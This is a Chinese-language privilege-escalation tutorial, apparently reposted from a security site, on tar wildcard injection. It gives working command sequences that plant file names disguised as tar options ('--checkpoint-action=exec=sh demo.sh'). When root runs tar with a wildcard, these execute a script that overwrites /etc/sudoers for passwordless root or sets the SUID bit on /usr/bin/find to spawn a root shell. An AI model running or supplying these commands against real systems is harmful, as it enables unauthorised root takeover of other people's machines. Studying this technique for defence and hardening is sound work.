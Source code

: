 ## Tar 通配符注入 （第二种方法）  
  
**利用 Sudoers 文件进行权限提升**  
  
基本上，借助通配符注入，攻击者想要获得系统的最高权限，因此，他会尝试在 tar 的帮助下注入一些恶意代码以进行 root 访问。但是有多种方法可以获取 root 访问权限，因此您可以应用以下技术进行权限提升。  
  
假设您将受害者的计算机作为非 root 用户，并且为了权限提升，要么获得 root 访问权限，要么尝试通过添加非 root 用户 sudoers 文件来授予非 root 用户 sudo 权限。因此，您可以借助以下命令。  
```
echo 'echo "ignite ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > demo.sh
echo "" > "--checkpoint-action=exec=sh demo.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```  
  
在上述命令的帮助下，我们尝试向用户授予 root 权限：ignite 和 1 分钟。1 分钟后，我们成功拥有根账户。  
```
sudo -l
sudo bash
whoami
```  
  
![1748767382_683c12966d54239f1a66d.png!small?1748767383282](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMfCDPno3icFFxSRiacdNss1xakBIroxNiaWtJpAYgb3MkhZKZoCLtafyZe7ueXnDtQTSvE47mXf1wicQ/640?wx_fmt=jpeg&from=appmsg "")  
## Tar 通配符注入 （第三种方法）  
  
权限提升 - 授予系统二进制文件的 SUID 权限  
  
**借助 tar 注入有多种方法可以提升权限，但我们讨论的方法很少。假设您将受害者的计算机作为非 root 用户，并且为了权限提升，您可以尝试为任何系统二进制文件启用 SUID 位，同样，您可以借助以下命令来获取 root 访问权限。**  
```
echo "chmod u+s /usr/bin/find" > test.sh
echo "" > "--checkpoint-action=exec=sh test.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
ls -al /usr/bin/find
find f1 -exec "whoami" \;
root
find f1 -exec "/bin/sh" \;
id
whoami
```  
  
![1748767408_683c12b0968dd1c6454ed.png!small?1748767409618](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMfCDPno3icFFxSRiacdNss1xr3XIzlaMvNDt9VqUGDTedGJmWHpNGfYzWm8jjIrKDyEB3AjEEniafMg/640?wx_fmt=jpeg&from=appmsg "")  
  
来源：【  
https://www.freebuf.com/articles/web/433166.html】  
  
